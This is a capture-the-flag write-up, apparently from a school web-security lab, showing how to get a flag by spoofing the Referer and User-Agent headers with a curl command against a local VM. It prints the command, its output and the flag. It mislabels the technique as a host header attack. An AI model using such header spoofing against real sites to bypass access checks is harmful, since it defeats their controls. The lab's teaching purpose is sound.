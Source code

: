 # Spoof(curl)

If we click on `Born2Sec` at the bottom of the page we get to <http://[VM_IP]/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f>

![Born2Sec](./img/Born2Sec.png)

![albatros](./img/albatros.png)

In the source code on this page we can find the following comments (some are more relevant than others):
```
<!--
Voila un peu de lecture :

Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.
-->

<!-- 
Fun right ?
source: loem.
Good bye  !!!!
-->

<!--
You must come from : "https://www.nsa.gov/".
-->

<!--
Where does it come from?
Contrary to popular belief, Lorem Ipsum is not simply random text. It has roots in a piece of classical Latin literature from 45 BC, making it over 2000 years old. Richard McClintock, a Latin professor at Hampden-Sydney College in Virginia, looked up one of the more obscure Latin words, consectetur, from a Lorem Ipsum passage, and going through the cites of the word in classical literature, discovered the undoubtable source. Lorem Ipsum comes from sections 1.10.32 and 1.10.33 of "de Finibus Bonorum et Malorum" (The Extremes of Good and Evil) by Cicero, written in 45 BC. This book is a treatise on the theory of ethics, very popular during the Renaissance. The first line of Lorem Ipsum, "Lorem ipsum dolor sit amet..", comes from a line in section 1.10.32.

The standard chunk of Lorem Ipsum used since the 1500s is reproduced below for those interested. Sections 1.10.32 and 1.10.33 from "de Finibus Bonorum et Malorum" by Cicero are also reproduced in their exact original form, accompanied by English versions from the 1914 translation by H. Rackham.
-->

<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

So we have to change our header to make it look like we are coming from <https://www.nsa.gov/> and using custom browser `ft_bornToSec`.

With `curl` we can do exactly that using flags -A (Specify the User-Agent) and -e (Sends the "Referer Page") information to the HTTP server:
```
daniseed@DESKTOP:~/darkly$ curl -e https://www.nsa.gov/ -A "ft_bornToSec" "http://192.168.31.135/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f"  | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6041    0  6041    0     0   737k      0 --:--:-- --:--:-- --:--:--  737k
<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

We have our flag

## Explanation

Attack type: [Host Header Attack](https://portswigger.net/web-security/host-header)

## How to fix it

This vulnerability is fixed on new webservers but it is better ro be careful with header attributes on backend. You should never execute something with their contents
